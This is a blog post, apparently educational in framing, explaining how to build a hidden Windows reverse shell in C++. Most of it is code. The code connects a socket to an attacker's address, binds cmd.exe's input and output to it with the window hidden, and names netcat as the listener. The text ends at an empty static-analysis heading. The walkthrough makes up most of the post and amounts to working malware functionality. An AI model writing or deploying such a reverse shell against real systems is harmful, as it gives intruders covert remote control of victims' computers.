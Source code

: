 ```yaml
---
layout: post
title: Malware Functionality Analysis: Simple Reverse Shell
---
```


# Malware Functionality Analysis: Simple Reverse Shell

## Implementing the Reverse Shell

Let's first analyse what we require to develop this functionality.

1. A socket with which commands and communication will be routed to the server,
2. A `cmd.exe` process that acts as the shell,
3. A listening server on the attacking machine (netcat will be sufficient enough for this).

### Creating the Connection

I will keep this section brief because creating and connecting a socket is a trivial procedure and there are many tutorials out there explaining how it can be done.

```c++
SOCKET tcpConnect(std::string address, std::string port) {
    getaddrinfo(address.c_str(), port.c_str(), ...);
    
    /*
     * Create a TCP socket connection.
     *
     * It's important that we use WSASocket here instead of the normal socket 
     * function and without the WSA_FLAG_OVERLAPPED flag.
     */
    SOCKET s = WSASocket(..., SOCK_STREAM, IPPROTO_TCP, ...);
    
    connect(s, ...);
    
    return s;
}
```

Note that we require the [`WSASocket`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms742212(v=vs.85).aspx) function because the (non-overlapped) socket will be required to work with I/O redirection with the shell's handles.

### Creating the Shell Process

The `cmd.exe` process acts as the shell so the application must create this as a separate process using the [`CreateProcess`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms682425(v=vs.85).aspx) function specifying the executable's path and also setting the stdin/stdout/stderr handles to the socket specified in the [`STARTUPINFO structure`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms686331(v=vs.85).aspx).

```c++
void createShell(void) {
    SOCKET s = tcpConnect(ADDRESS, PORT);
    
    STARTUPINFOA si;
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    
    /*
     * We specify what values we want to use.
     * STARTF_USESTDHANDLES specifies that we want to use stdin/stdout/stderr.
     * STARTF_USESHOWWINDOW specifies that we want to control how the window appears.
     */
    si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
    
    /*
     * Set stdin/stdout/stderr to the socket.
     */
    si.hStdError = si.hStdInput = si.hStdOutput = (HANDLE)s;
    
    /*
     * The process's window will not be shown.
     */
    si.wShowWindow = SW_HIDE;
    
    PROCESS_INFORMATION pi;
    ZeroMemory(&pi, sizeof(pi));
    
    /*
     * Retrieve the path of the cmd.exe executable's path.
     * We use this so that it will systemmatically retrieve the 
     * system directory which may not always be "C:\Windows\system32".
     *
     * NOTE: Depending on your application's architecture, this
     * value will change under the hood, i.e. if your application is 
     * a 32-bit process, it will get the SYSWOW64 directory whereas 
     * the 64-bit counterpart will get the system32 directory. Make 
     * sure your application exists in its corresponding directory 
     * when doing something like this. Alternatively, you can force 
     * to not swap to SYSWOW64 by explicitly calling 
     * Wow64DisableWow64FsRedirection.
     * (https://msdn.microsoft.com/en-us/library/windows/desktop/aa365743(v=vs.85).aspx).
     */
     char szSysDirectory[MAX_PATH + 1];
     GetSystemDirectoryA(szSysDirectory, MAX_PATH);
     
     /*
      * Append "\cmd.exe" onto the system directory.
      */
     std::string cmdExe = szSysDirectory;
     cmdExe += "\\cmd.exe";
     
     /*
      * Create the cmd.exe process.
      * Make sure that the process inherits the handles.
      */
     CreateProcessA(cmdExe.c_str(), ..., true, 0, ..., &si, &pi);
     
     /*
      * Block until the cmd.exe process has completed.
      */
     WaitForSingleObject(pi.hProcess, INFINITE);
}
```

Once the `cmd.exe` process has been created, we call [`WaitForSingleObject`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms687032(v=vs.85).aspx) to block the application until the shell process has finished execution.

### Demonstration

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample.png)

Note that there is no window for the `cmd.exe` shell process spawned from the application because we used the `SW_HIDE` value for the `STARTUPINFO.wShowWindow` member. It functions nicely using native utilities and can even be used to call PowerShell albiet a little buggy.

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample1.png)

### Static Analysis

